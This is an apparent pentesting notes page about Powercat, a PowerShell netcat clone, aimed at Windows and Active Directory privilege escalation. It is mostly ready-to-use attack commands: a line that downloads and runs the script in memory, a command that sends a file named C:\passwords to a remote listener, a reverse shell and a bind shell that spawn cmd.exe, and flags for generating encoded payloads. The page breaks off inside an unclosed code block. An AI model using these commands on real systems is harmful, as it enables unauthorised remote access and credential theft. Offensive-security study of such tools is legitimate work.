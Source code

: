 # Powercat 
The Powershell clone of Netcat written by [besimorhino](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and similar useful as netcat but only useful for [[Windows-Privilege-Escalation]], [[Active-Directory-Privilege-Escalation]] and [[Windows-File-Transfers]]

## Setup
```powershell
. .\powercat.ps1

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

powercat -h
```

## File transfers
```powershell
# Recieve here:
powercat -l -p 54321 -of $filename
# Exfiltrate with:
powercat -c 10.10.10.10 -p 54321 -i C:\passwords

```

## Reserve Shells
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

## Bind Shells
```powershell
powercat -l -p 1337 -e cmd.exe
```

## Powercat Payloads
Powercat payloads are generated by Powercat that is a set Powershell instrcutions combine parts of the Powercat script.
```powershell
-g # generate payload
-ge # generate encoded payload
